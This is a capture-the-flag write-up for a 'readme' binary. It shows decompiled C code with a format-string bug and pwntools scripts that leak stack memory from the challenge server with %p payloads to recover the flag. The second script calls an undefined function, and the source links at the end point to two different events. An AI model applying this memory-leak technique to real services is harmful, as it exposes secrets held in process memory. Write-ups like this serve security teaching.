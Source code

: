 Preface  
-------

We get a binary which asks for our name and then prints hello + input.  
But in order for the binary to run, a file ```flag.txt``` needs to be created
in the working directoy.

Overview  
--------

Decompiling the binary in *ghidra*, we see a function ```vuln``` where the
logic happens.  
The decompiled function with some renaming of the variables looks like this:

```C  
void vuln(void) {  
 FILE *flag_file;  
 long in_FS_OFFSET;  
 char flag [32];  
 char name [40];  
 long local_10;  
  
 stack_canary = *(long *)(in_FS_OFFSET + 40);  
 flag_file = fopen("flag.txt","r");  
 fgets(local_58,28,flag_file);  
 fclose(flag_file);  
 puts("hello, what\'s your name?");  
 fgets(name,30,stdin);  
 printf("hello ");  
 printf(name);  
 if (stack_canary != *(long *)(in_FS_OFFSET + 40)) {  
   __stack_chk_fail();  
 }  
 return;  
}  
```

From this we can see, that the flag is read and stored in the function stack
frame.  
Also we can see, that our input (_name_) is directly passed to ```printf```,
so we got a format string possibility.

With ```%p``` we can print values from the memory and with ```%1$p``` we can
also add an offset, to what memory we want to print.

Using this I played a little bit around with offsets, until I saw the hex for
the flag in the output.  
During the CTF my exploit was pretty simple.

```Python  
#!/usr/bin/env python3  
from pwn import *

context.arch = 'amd64'  
context.log_level = "INFO"

context.terminal = ['xfce4-terminal', '-x', 'sh', '-c']

vulnerable = './readme'

payload = ""

for i in range(1,20):  
   #p = process( vulnerable )  
   p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)  
   p.readuntil('hello, what\'s your name?')  
   p.sendline("%{}$p.".format(i))  
   p.readuntil('hello ')  
   leak = p.read(2048, timeout=1).strip().split(b'.')  
   for item in leak:  
       try:  
log.info(p64(int(item, 16)))  
       except:  
           continue  
   p.close()  
```

This already gave me almost the flag. Because I had to extend a closing
bracket at the end of it.

After the CTF ended, I extended my Script, to be more efficient, because I
could input multiple formats up to 30 characters.  
Also I want to have a function to dump the memory, in order to extend the
size.  
Also the leaked memory was combined and then printed our, this way the flag
was more obvious.

```Python  
#!/usr/bin/env python3  
from pwn import *

context.arch = 'amd64'  
context.log_level = "INFO"

context.terminal = ['xfce4-terminal', '-x', 'sh', '-c']

vulnerable = './readme'

payload = ""

def send_payload(fmtstr):  
   global payload  
   if len(payload) + len(fmtstr) >= 30:  
       #p = process( vulnerable )  
       p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)  
       p.readuntil('hello, what\'s your name?')  
       p.sendline(payload)  
       p.readuntil('hello ')  
       leak = p.read(2048, timeout=1).strip().strip(b';').split(b';')  
       p.close()  
       payload = fmtstr  
       return leak  
   else:  
       payload += fmtstr  
       return []

def dump(num_bytes_leaked=20):  
   leaks = []  
   for i in range(num_bytes_leaked):  
       leaks.extend(send_payload("%{}$p;".format(1+i)))  
   stack_leak = map(lambda y: 0 if b'nil' in y else int(y, 16), leaks)  
   return stack_leak

sl = dump_stack()  
slb = b''.join(map(p64, sl))  
log.info(hexdump(slb))

x = slb[slb.find(b'dctf{'):]  
x = x[:(x.find(b'\x00'))]  
log.info('flag is: ' + x.decode('ASCII') + '}')  
```

The complete flag was:  
```dctf{n0w_g0_r3ad_s0me_b00k5}```

Original writeup (https://w0y.at/writeup/2021/05/17/dctf-2021-readme.html).[Original
writeup](https://t3l3sc0p3.github.io/posts/knightctf-2024-writeup/#readme-305-pts)
(https://t3l3sc0p3.github.io/posts/knightctf-2024-writeup/#readme-305-pts).